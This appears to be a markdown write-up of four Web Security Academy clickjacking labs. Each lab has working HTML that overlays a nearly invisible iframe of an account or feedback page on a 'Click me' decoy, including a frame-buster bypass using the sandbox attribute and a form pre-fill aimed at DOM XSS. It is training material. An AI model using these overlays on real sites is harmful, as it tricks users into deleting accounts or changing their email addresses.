


## Lab - 1: Basic clickjacking with CSRF token protection (A)

- This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 500px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0ad900cd0472cff4c0ee18530078002c.web-security-academy.net/my-account"
></iframe>
```

- the result will look like this:



- after decreasing the opacity :



---

## Lab - 2: Clickjacking with form input data prefilled from a URL parameter (A)

- This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 600px;
    opacity: 0.00001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 465px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>CLICK ME</div>
<iframe
  src="https://0a5d0048038f1bb1c08859620014003d.web-security-academy.net/my-account?email=test@test2.com"
></iframe>
```

- iframe src makes that form prefill with email address

---

## Lab - 3: Clickjacking with a frame buster script (A)

- This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 600px;
    opacity: 0.000001;
    z-index: 2;
  }

  button {
    position: absolute;
    top: 467px;
    left: 55px;
    z-index: 1;
    font-size: 13px;
    background-color: #009f10;
    color: #fff;
    font-weight: bold;
    padding: 10px 20px;
    border-radius: 30px;
  }
</style>
<button>Click Me</button>
<iframe
  src="https://0a1c0056039e80bdc0d810ac00cd001e.web-security-academy.net/my-account?email=test@test.com"
  sandbox="allow-forms"
></iframe>
```

---

## Lab - 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS (P)

- This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

- DOM XSS found at the submit feedback page and to make the form prefilled,

```
https://0a4f00fa03e79a75c0c7661a00fe0057.web-security-academy.net/feedback?name=&email=test@test.com&subject=test&message=test
```

```html
<style>
  iframe {
    position: relative;
    width: 600px;
    height: 100vh;
    z-index: 2;
    opacity: 0.5;
  }

  button {
    position: absolute;
    top: 467px;
    left: 55px;
    z-index: 1;
    font-size: 13px;
    background-color: #009f10;
    color: #fff;
    font-weight: bold;
    padding: 10px 20px;
    border-radius: 30px;
  }
</style>
<button>Click Me</button>
<iframe
  src="https://0a7c0078045eb571c0e0b74f0096001a.web-security-academy.net/feedback?name=&email=test@test.com&subject=test&message=test"
  sandbox="allow-forms"
></iframe>
```

---
